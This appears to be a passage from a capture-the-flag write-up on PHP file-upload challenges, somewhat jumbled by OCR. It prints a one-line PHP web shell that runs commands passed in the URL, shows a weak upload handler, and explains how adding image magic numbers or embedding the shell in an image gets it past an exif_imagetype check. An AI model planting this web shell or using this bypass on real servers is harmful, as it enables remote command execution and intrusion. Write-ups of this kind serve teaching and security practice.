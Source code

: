 ```<?php exec($_GET["cmd"],$output); print_r($output); ?>```
$fileSize = $_FILES['userfile']['size'];
$fileTmpName  = $_FILES['userfile']['tmp_name'];
$fileType = $_FILES['userfile']['type'];
$fileExtension = strtolower(end(explode('.',$fileName)));

$uploadPath = $currentDir . $uploadDirectory . $stoage_name . "." . $fileExtension;
$link = $uploadDirectory . $stoage_name . "." . $fileExtension;
if (isset($_POST['submit'])) {

    if (in_array($fileExtension,$fileExtensions)) {
        $errors[] = "This file is a virus!!". "</br>";
    }

    if ($fileSize > 2000000) {
        $errors[] = "This file is more than 2MB. Sorry, it has to be less than or equal to 2MB". "</br>";
    }

    if (empty($errors)) {
        $didUpload = move_uploaded_file($fileTmpName, $uploadPath);

        if ($didUpload) {
            echo "The file " . basename($fileName) . " is not a virus! (I think...)";
            echo "</br>";
            echo "You can download the file <a href='$link'>here</a>";
        } else {
            echo "An error occurred somewhere. Try again or contact the admin". "</br>";
        }
    } else {
        foreach ($errors as $error) {
            echo $error . "These are the errors" . "</br>";
        }
    }
}
?>
```

##Challenge 6
Challenge 6 is very similar to challenge 5, except that challenge 6 checks if the file is an image before processing and uploading it. A quick google search for “php check image type” shows us the following option: http://php.net/manual/en/function.exif-imagetype.php The description states the following: “exif_imagetype() reads the first bytes of an image and checks its signature.” This is exactly the method used for this challenge. Uploading a file with the proper magic numbers for PNG, GIF, JPEG, or JPG would allow the file to bypass the checks and upload to the proper directory. PHP doesn’t care what else is in the file. When it sees the “<?php” and “?>” characters it will execute anything in between. 

To solve this challenge, you can either find out what the magic numbers are and use a hex editor to edit the same shell we uploaded in challenge 5 with the appropriate magic numbers. Or we can do it the ghetto/easy way. Simply download any image (that is less then 2MB), open it in a text editor, go down a couple lines, and place in our Back door:
